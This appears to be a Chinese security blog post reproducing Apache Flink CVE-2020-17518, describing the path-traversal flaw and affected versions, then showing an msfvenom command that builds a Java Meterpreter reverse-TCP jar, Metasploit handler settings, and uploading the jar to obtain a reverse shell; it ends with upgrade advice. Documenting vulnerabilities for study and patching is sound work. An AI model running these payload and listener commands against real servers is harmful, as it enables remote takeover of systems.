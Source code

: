 ```yaml
---
title: Apache Flink  cve-2020-17518
layout: post
post-image: /assets/images/apacheflink.jpg
description: Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置
tags:
- 内网渗透
- Coblat Strike
- 免杀
---
```



# Apache Flink  cve-2020-17518

​                                                                                                                       ——Darren    

**1.****漏洞名称**：

**apache Flink 路径遍历漏洞（上传jar包）**

 

**2.****漏洞原理**：

**Flink 在 1.5.1 版本中引入了一个 REST handler，这允许攻击者将已上传的文件写入本地任意位置的文件中，并且可通过一个恶意修改的 HTTP 头将这些文件写入到 Flink 1.5.1 可以访问的任意位置**

 

**Flink 1.5.1-1.11.2中，允许文件上传到直接上传到服务器中的任意位置中**

**在用户上传一个文件时，filename是用户可以控制的，将filename的路径于服务器路径进行拼接**

 

**3.****受影响版本****：**

**Apache Flink 1.5.1 ~ 1.11.2**

 

**4.****漏洞复现：**

访问地址

![image-20211106102216628](/assets/images/20211106/image-20211106102216628.png)

使用kali生成一个jar文件

msfvenom ‐p java/meterpreter/reverse_tcp LHOST=ip LPORT=端口 ‐f jar > 名字.jar

![image-20211106102240945](/assets/images/20211106/image-20211106102240945.png)

![image-20211106102302878](/assets/images/20211106/image-20211106102302878.png)

接着打开msfconsole 设置攻击端口以及ip

`use exploit/multi/handler (选择攻击模块)`

`set lhost 0.0.0.0 （设置监听ip）0.0.0.0（代表监听所有流向12345的端口的流量）`

`set lport 12345 （设置监听端口）`

`set payload java/meterpreter/reverse_tcp （使用刚刚生成的payload）`

`show options` 

`run`

![image-20211106102403856](/assets/images/20211106/image-20211106102403856.png)

接着上传jar包

![image-20211106102420717](/assets/images/20211106/image-20211106102420717.png)

点击submit后，返回kali中查看反弹回来的shell

![image-20211106102434280](/assets/images/20211106/image-20211106102434280.png)

**5.****修复建议：**

升级flink的版本
